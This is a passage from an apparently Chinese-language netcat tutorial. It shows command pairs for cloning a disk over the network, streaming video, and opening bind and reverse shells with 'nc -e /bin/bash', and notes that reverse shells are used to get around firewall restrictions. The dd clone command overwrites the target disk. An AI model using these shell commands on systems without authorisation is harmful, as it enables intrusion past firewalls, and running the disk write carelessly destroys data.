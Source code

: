 服务器 Server (192.168.1.9)

```shell
$ dd if=/dev/sda | nc -l 8000
```

客户端 Client

```shell
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

克隆 linux PC 非常简单。假设你的系统盘是 /dev/sda

### 视频流

服务器 Server (192.168.1.9)

```shell
$ cat video.avi | nc -l 8000
```

客户端 Client

```shell
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

使用 netcat 流式传输视频

### 远程 shell

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000 -e /bin/bash
```

客户端 Client

```shell
$ nc 192.168.1.9 8000
```

我们已经使用 `telnet` 和 `ssh` 使用远程 `Shell`，但是如果它们没有安装并且我们没有安装它们的权限，那么我们也可以使用 `netcat` 创建远程 `shell`

### 逆转 shell

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000
```

客户端 Client

```shell
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

反向 `shell` 通常用于绕过防火墙限制，例如阻止入站连接



